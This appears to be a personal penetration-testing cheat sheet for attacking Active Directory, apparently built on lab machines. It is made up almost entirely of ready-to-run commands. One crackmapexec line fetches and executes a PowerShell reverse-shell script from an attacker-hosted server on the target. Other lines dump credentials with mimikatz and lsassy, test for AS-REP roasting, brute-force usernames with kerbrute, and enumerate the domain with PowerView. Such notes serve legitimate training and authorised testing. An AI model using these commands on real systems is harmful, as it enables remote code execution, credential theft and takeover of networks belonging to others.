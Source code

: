 ## Persistence
### crackmapexec
- Reverse shell: [Edit this from Kali to Windows](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
- Transfer to windows: `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'iex(New-Object Net.WebClient).DownloadString("http://192.168.223:8000/Invoke-PowerShellTcpOneLine.ps1")'`
- Reverse shell script will autorun upcon transfer

## dumping credentials
### crackmapexec's mimikatz
- `sudo crackmapexec smb -M mimikatz 192.168.1.54 -u ippsec -Password12345`
- `sudo crackmapexec smb -M mimikatz 192.168.1.54 -u ippsec -Password12345 --server-port 444`
- stored in (for sudo): `cat /root/.cme/logs/Mimikatz-192.168.1.54.log`
- stored in (for non-sudo): `cat ~/cme/logs/Mimikatz-192.168.1.54.log`

### crackmapexec's lsassy
- `sudo crackmapexec smb -M lsassy 192.168.1.54 -u ippsec -Password12345`
- `sudo crackmapexec smb -M lsassy 192.168.1.54 -u ippsec -Password12345 --server-port 444`
- does not store logs locally

### test for a quick No-Preauth win without supplying a username
```
GetNPUsers.py Egotistical-bank.local/ -dc-ip 10.10.10.175
```

### tool to brute force of a valid username based on info collection so far (not unbounded brute force)
```bash
kerbrute.py -users ./users.txt -dc-ip 10.10.10.175 -domain Egotistical-bank.local
```

### test if credentials are valid
```bash
kerbrute.py -user 'fsmith' -password 'Thestrokes23' -dc-ip 10.10.10.175 -domain Egotistical-bank.local
```

## SKIPPED [Powershell Empire](https://github.com/BC-SECURITY/Empire) 
- Post exploitation for AD
- Install: `sudo apt install powershell-empire`
- Run: `sudo powershell-empire`


### Powerview

```bash
Import-Module .\PowerView.ps1 #loading module to powershell, if it gives error then change execution policy
Get-NetDomain #basic information about the domain
Get-NetUser #list of all users in the domain
# The above command's outputs can be filtered using "select" command. For example, "Get-NetUser | select cn", here cn is sideheading for   the output of above command. we can select any number of them seperated by comma.
Get-NetGroupMember -GroupName "Domain Admins"       #get SID, Group Doamin name, group name
Get-NetGroup # enumerate domain groups
Get-NetGroup "group name" # information from specific group
Get-NetComputer # enumerate the computer objects in the domain
Find-LocalAdminAccess # scans the network in an attempt to determine if our current user has administrative permissions on any computers in the domain
```